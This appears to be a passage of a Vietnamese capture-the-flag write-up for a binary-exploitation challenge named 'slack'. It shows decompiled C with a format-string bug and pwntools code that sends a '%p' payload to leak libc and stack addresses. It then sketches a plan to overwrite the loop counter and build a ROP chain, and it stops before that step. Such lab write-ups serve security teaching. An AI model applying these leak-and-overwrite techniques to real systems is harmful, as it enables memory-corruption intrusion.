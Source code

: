```c
  puts("Welcome to slack (not to be confused with the popular chat service Slack)!");
  timer = time(0LL);
  tp = localtime(&timer);
  v3 = time(0LL);
  srand(v3);
  for ( i = 0; i <= 2; ++i )
  {
    strftime(s, 0x1AuLL, "%Y-%m-%d %H:%M:%S", tp);
    v4 = rand();
    printf("%s -- slack Bot:  %s\n", s, (&messages)[v4 % 8]);
    printf("Your message (to increase character limit, pay $99 to upgrade to Professional): ");
    fgets(format, 14, stdin);
    tp = localtime(&timer);
    strftime(s, 0x1AuLL, "%Y-%m-%d %H:%M:%S", tp);
    printf("%s -- You: ", s);
    printf(format);
    putchar(10);
  }
  return v13 - __readfsqword(0x28u);
}
```

### EXPLOIT

- ở bài này ```FULL_RELRO``` nên sẽ không thể overwrite ```got``` được , nên có lẽ là ta sẽ build rop_chain và overwrite ```saved_rip``` , trước hết thì có lẽ ta cần leak libc và stack_addressaddress , 1 điều cần để ý nữa là ta chỉ có 13 byte để build nên sẽ hơi khó khăn tuy nhiên thì ta sẽ leak trước rồi tính sau

```cs
pl_leak = b'|%21$p|%25$p|'
input()
p.sendlineafter(b'Professional): ',pl_leak)
p.recvuntil(b'|')
libc.address = int(p.recvuntil(b'|')[:-1],16) - 0x29d90
log.info(f'libc: {hex(libc.address)}')

stack_leak = int(p.recvuntil(b'|')[:-1],16)
log.info(f'stack: {hex(stack_leak)}')
```

- lúc này vừa leak xong hết thì chỉ còn 2 lần được ```fsb``` T_T , mà cho dù có thêm 3 lần nữa cũng khó mà build rop_chain được =)) nên ý tưởng của ta là sẽ thay đổi giá trị đếm của loop thành 1 số âm (vì i là kiểu int nên khi nó âm -> 1 số lớn) và giá trị -1 sẽ là số lớn nhất trong ```int``` nó sẽ là 0x80xxxxxx
- vậy ta cần tìm 1 con trỏ nào đó để thay đổi nó trỏ đến biến ```i``` , lần ghi thứ 3 ta sẽ hoàn thành và lúc này loop vô hạn thì ta sẽ build thoải mái =))) 

- ```0x7fffffffd8a8``` địa chỉ này sẽ là địa chỉ thích hợp , vậy ta cần tính toán offset của nó và địa chỉ ta cần ghi 

![here](/assets/images/fsb5.png)
